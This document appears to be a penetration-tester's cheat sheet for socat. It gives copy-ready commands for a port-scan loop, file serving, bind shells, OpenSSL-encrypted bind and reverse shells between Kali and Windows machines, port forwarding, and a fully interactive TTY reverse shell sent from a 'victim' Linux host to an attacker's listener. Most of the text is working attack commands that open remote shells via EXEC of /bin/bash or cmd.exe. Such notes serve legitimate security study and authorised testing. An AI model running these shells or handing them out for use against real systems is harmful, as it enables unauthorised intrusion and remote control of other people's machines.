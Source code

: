 > Socat (for SOcket CAT) establishes two bidirectional byte streams and transfers data between them. Data channels may be files, pipes, devices (terminal or modem, etc.), or sockets (Unix, IPv4, IPv6, raw, UDP, TCP, SSL). It provides forking, logging and tracing, different modes for interprocess communication and many more options.


# Download

Download binaries
```
https://github.com/3ndG4me/socat/releases
```

# Port Scanning

#Port_Scanning 

Bash script to perform a TCP port scan on ports 1 to 10000
```bash
for ((port=1; port<=10000; port++)); do socat -v - TCP:192.168.69.123:$port; done
```

# File Transfer

#File_Sharing 

Start listener on port 4444 to allow file to be downloaded E.g., `powercat.ps1`
```bash
sudo socat TCP4-LISTEN:4444,fork file:powercat.ps1
```

#Shell_Access #Remote_Access

# Bind shell from Windows machine to Kali machine
1. Windows Machine: Create bind shell listener
```
socat -d -d TCP4-LISTEN:443 EXEC:'cmd.exe',pipes
```
2. Linux Machine: Connect to bind shell
```
socat - TCP4:192.168.69.123:443
```

# Encrypted bind shell from Kali machine to Windows machine
1. Linux Machine: Create a self-signed certificate
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```
2. Linux Machine: Create the .pem file
```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```
3. Linux Machine: Start encrypted bind shell listener
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
4. Windows Machine: Connect to encrypted bind shell
```
socat - OPENSSL:192.168.69.123:443,verify=0
```

# Encrypted bind shell from Windows machine to Kali machine
1. Windows Machine: Download Socat
```
https://github.com/tech128/socat-1.7.3.0-windows
```
2. Windows Machine: Download openssl and add to PATH
```
https://slproweb.com/products/Win32OpenSSL.html
```
3. Windows Machine: Create a self-signed certificate using openssl
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```
4. Windows Machine: Create .pem file
```
type bind_shell.key bind_shell.crt > bind_shell.pem
```
5. Windows Machine: Start encrypted bind shell listener
```
socat OPENSSL-LISTEN:4443,cert=bind_shell.pem,verify=0,fork EXEC:'cmd.exe',pipes
```
6. Linux Machine: Connect to encrypted bind shell
```
socat - OPENSSL:192.168.69.123:4443,verify=0
```

# Encrypted reverse shell from Windows machine to Kali machine
1. Windows Machine: Download Socat
```
https://github.com/tech128/socat-1.7.3.0-windows
```
2. Windows Machine: Download openssl and add to PATH
```
https://slproweb.com/products/Win32OpenSSL.html
```
3. Windows Machine: Create a self-signed certificate using openssl
```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```
4. Windows Machine: Create .pem file
```
type reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
5. Windows Machine: Create a listener
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```
6. Linux Machine: Send a reverse shell
```
socat OPENSSL:192.168.69.123:4443,verify=0 EXEC:/bin/bash
```

# Encrypted reverse shell from Kali machine to Windows machine
1. Linux Machine: Create a self-signed certificate
```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```
2. Linux Machine: Create the .pem file
```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
3. Linux Machine: Create a listener
```
socat -d -d OPENSSL-LISTEN:6969,cert=reverse_shell.pem,verify=0,fork STDOUT
```
4. Windows Machine: Send a reverse shell
```
socat OPENSSL:192.168.69.123:6969,verify=0 EXEC:'cmd.exe',pipes
```

#Port_Forwarding 

## Local Port Forwarding

Socat local port forward command
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.69.169:5432
```
- Start a verbose (`-ddd`) Socat process. 
- Listen on TCP port 2345 (`TCP-LISTEN:2345`)
- Fork into a new subprocess when it receives a connection (`fork`) instead of dying after a single connection, 
- Forward all received traffic to TCP port 5432 on 10.4.50.215 (`TCP:10.4.69.169:5432`)

#Full_Interactive_Shell 

## Socat TTY Shell 

Own Kali listener
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Victim Linux launch reverse shell
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.1.2.6:4444
```

